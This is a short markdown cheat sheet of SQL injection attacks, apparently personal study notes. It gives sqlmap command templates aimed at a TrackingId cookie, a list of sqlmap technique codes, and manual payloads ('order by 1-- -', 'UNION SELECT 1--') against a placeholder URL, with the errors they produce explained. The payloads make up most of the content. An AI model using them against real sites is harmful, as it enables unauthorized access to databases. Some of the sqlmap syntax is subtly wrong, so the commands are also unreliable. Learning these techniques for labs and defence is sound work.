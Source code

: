 # sqlmap command to attack 

---
`sqlmap -u "url" -p cookies="TrackingId=*" --technique=`
`sqlmap -r req.txt -p cookies="TrackingId=*" --technique=`
--- 

The list of techniques with its letters is as follows:

    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries


# sql injection payload for error based technique

---
http://domain.com/index.php?id=1' order by 1-- -
---

1. This query musn't shows up error, since there is no lower number than 1
2. order by 1: mean arrage the result in asscending order by the first column of the table

---
http://domain.com/index.php?id=xyz' UNION SELECT 1--
---

1. return **ERROR: UNION types character varying and integer cannot be matched** mean id's type is character while 1 is type of integer
